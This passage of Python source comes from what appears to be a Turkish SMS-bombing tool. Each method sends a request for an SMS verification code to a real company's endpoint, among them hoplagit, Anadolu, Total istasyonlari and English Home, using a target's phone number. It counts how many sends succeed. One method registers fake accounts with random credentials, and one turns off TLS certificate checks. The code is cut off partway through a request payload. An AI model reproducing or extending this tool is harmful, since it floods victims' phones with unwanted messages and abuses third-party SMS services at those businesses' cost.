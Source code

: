     #hoplagit
    def hop(self):
     try:
        url = "https://api.hoplagit.com:443/v1/auth:reqSMS"
        payload = {
            "phone" : f"+90{self.phone}"
        }
        r = requests.post(url=url, json=payload, timeout=5)

        if r.status_code == 201:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> goyakit")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> goyakit")

    #anadolu
    def anadolu(self):
     try:
        url = "https://www.anadolu.com.tr/Iletisim_Formu_sms.php"
        payload = urllib.parse.urlencode({
            "Numara": f"{str(self.phone)[0:3]}{str(self.phone)[3:6]}{str(self.phone)[6:8]}{str(self.phone)[8:10]}"
        })
        headers = {
            "content-type": "application/x-www-form-urlencoded; charset=UTF-8",
        }
        r = requests.post(url=url, headers=headers, data=payload, timeout=5)
        if r.status_code == 200:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> goyakit")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> goyakit")

    #total
    def total(self):
     urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
     try:
        url = f"https://mobileapi.totalistasyonlari.com.tr:443/SmartSms/SendSms?gsmNo={self.phone}"
        r = requests.post(url=url, verify=False, timeout=5)
        r1 = json.loads(r.text)["success"]
        if r1 == True:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> goyakit")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> goyakit")

    #englishhome
    def englishhome(self):
     try:
        url = "https://www.englishhome.com:443/enh_app/users/registration/"
        payload = {
            "first_name": f"{''.join(random.choices(string.ascii_lowercase, k=8))}",
            "last_name": f"{''.join(random.choices(string.ascii_lowercase, k=8))}",
            "email": f"{''.join(random.choices(string.ascii_lowercase + string.digits, k=16))}@gmail.com",
            "phone": f"0{self.phone}",
            "password": f"{''.join(random.choices(string.ascii_lowercase + string.digits + string.ascii_uppercase, k=8))}",
            "email_allowed": False,
            "sms_allowed": False,